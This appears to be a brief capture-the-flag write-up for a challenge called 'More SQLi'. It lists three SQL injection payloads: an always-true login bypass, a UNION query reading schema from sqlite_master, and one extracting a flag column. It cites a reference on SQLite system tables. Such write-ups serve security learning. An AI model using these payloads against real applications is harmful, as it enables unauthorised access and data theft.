


# More SQLi

## Solution

' OR 1=1 --

' union select sql,1,1 from sqlite_master --

' union select id,flag,1 from more_table --

## References

- [SQLite: System Tables](https://www.techonthenet.com/sqlite/sys_tables/index.php)